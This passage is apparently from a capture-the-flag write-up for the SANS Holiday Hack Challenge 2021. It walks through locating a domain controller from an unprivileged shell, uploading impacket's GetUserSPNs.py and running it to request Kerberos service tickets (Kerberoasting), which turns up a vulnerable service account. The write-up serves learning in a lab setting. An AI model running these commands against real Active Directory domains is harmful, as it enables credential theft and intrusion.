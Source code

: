 With the above commands, there are a few things to note:
1. We are an unprivilieged user
2. We are on a Linux box on the `elfu.local` domain
3. We cannot run anything as a privileged user
4. The machine we are on resides in the `172.17.0.0/16`

Let's ping the domain and see what comes back

```
$ ping -c4 elfu.local
```

![Finding the Domain Controller](/assets/img/2021_sans_hhc/obj/obj08/picture_7.png){: width="750"}
<p align="center">
    <strong>Figure 7: Domain Controller Found</strong>
</p>

Immediately we can see that there is another domain that is internal to this one
```
Domain: holidayhack2021.internal
IP: 10.128.1.53
```

Since we know that we will have to conduct some kind of Active Directory attack, let's use [impacket's `GetUserSPNs.py`](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) as detailed in the talk.

We need to upload this script to the box we are currently on. We'll use SCP since we know we have access to the machine with our unprivileged user account.

Download the script to your local machine, browse to the download location and then upload the file.

```
scp -P 2222 GetUserSPNs.py <username>@grades.elfu.org:/home/<username>/
```

The file should land in your home directory. Change the permissions and run it.

```
chmod +x GetUserSPNs.py
python3 GetUserSPNs.py -dc-ip 10.128.1.53 elfu.local/<username>:<domain password> -request
```

Looks like we found a vulnerable account, `elfu_svc`!
